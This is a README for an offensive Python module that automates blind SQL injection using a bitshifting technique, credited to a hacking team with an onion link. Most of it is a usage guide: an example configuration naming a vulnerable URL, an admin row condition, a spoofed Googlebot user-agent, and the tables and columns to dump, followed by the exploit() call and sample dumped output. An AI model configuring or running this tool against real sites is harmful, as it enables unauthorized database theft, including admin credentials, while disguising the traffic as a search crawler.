 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

Implementation coded by **Eclipse** of **Team Salvation** (http://ljdbosgro7jj4z7r.onion)

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (1 = no condition)
x.options["row_condition"] = "1"

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "table"

# Specify columns to dump
x.options["columns"] = "col1,col2"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`
